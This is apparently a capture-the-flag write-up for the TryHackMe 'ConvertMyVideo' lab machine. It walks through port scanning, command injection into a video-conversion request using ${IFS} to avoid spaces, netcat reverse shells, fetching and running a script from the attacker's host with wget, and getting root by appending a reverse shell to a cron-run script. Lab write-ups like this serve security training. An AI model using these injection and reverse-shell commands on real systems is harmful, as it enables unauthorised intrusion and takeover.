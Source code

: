 ```yaml
---
title: ConvertMyVideo - Medium THM
date: 2023-11-12 08:11:31 +/-0800
categories: [writeup, talace]
writeup: :title
permalink: /convertmyvideo
tags: [thm, writeup, medium, linux, command injection, web]     # TAG names should always be lowercase
---
```


- OS: **Linux**
- Difficulty: **Medium**
- Author: **Talace**

# Scanning 🤖

**threader300.py**
```
**python3 threader3000.py**
```
```
Port 22 is open
Port 80 is open
```
**nmap scan**
```
nmap -p22,80 -sV -sC -T4 -Pn -oA 10.10.232.225 10.10.232.225
```
```
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
```
# Enumeration 👀

**dirb scan**
```
dirb http://10.10.232.225/ /usr/share/wordlists/dirb/common.txt
```
```
---- Scanning URL: http://10.10.232.225/ ----
+ http://10.10.232.225/admin (CODE:401|SIZE:460)
```
# Command injection 💉
We spawn on the main page

![mainPage](/assets/convertMyVideo/mainPage.png)

I capture the request in burp.. seems not very secure
![burp1](/assets/convertMyVideo/burp1.png)

Try **'id'** command, it works!
![idCommand](/assets/convertMyVideo/idCommand.png)

I can't **'ls -la'**, it return nothing, maybe i can't have white space ? 
I have found that the var IFS, is by default a ' ', so let's try with it! 
```bash
--version;ls${IFS}-la;
```

Nice it work, from this i'm able to retrieve a lot of data, and the user by the same occasion
![userFlag](/assets/convertMyVideo/userFlag.png)

**It's cool, but we need a way to enter, let's put a reverse shell in it!**
open my listener:
```bash
nc -nvlp 4444
```

And send my reverse shell! 
```bash
rm${IFS}/tmp/f;mkfifo${IFS}/tmp/f;cat${IFS}/tmp/f|sh${IFS}-i${IFS}2>&1|nc${IFS}10.8.138.226${IFS}4444${IFS}>/tmp/f;
```

**Oh crap!? It close instantly, let's wget and run script!**😦
```bash
echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.8.138.226 4444 >/tmp/f" >> shell.sh
```
Open a http server
```bash
python3 -m http.server 80
```
And lunch my new command, wget the script and run it with bash
```bash
--version;wget${IFS}http://10.8.138.226/pwn.sh;bash${IFS}shell.sh;
```
**Yessir! We are in!**😼

# Privilege escalation 🐧
**Upgrade the shell**
```bash
python -c 'import pty; pty.spawn("/bin/bash")'
```

**Let's run pspy**
check wich one is need:
```bash
uname -a

Output: Linux dmv 4.15.0-96-generic #97-Ubuntu SMP Wed Apr 1 03:25:46 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
```
I need the 64 bits, wget it and change rights:
```bash
wget http://10.8.138.226:81/pspy64
&&
chmod +xs pspy64
```

**Now lunch the pspy**

./pspy64, Oh interesting cron job!
```bash
2023/11/11 18:13:01 CMD: UID=0     PID=27982  | bash /var/www/html/tmp/clean.sh
```

**Let's lunch a reverseshell from it.**

Open a netcat:
```bash
nc -nvlp 4445
```
Now put the revershell in it.
```bash
echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.8.138.226 4445 >/tmp/f" >> clean.sh
```
Go back on your netcat... Boom! Got root GG!

![ROOT](/assets/convertMyVideo/root.png)

# Resources
How to run a command without white space: [Article](https://unix.stackexchange.com/questions/351331/how-to-send-a-command-with-arguments-without-spaces?source=post_page-----e012e7db996--------------------------------)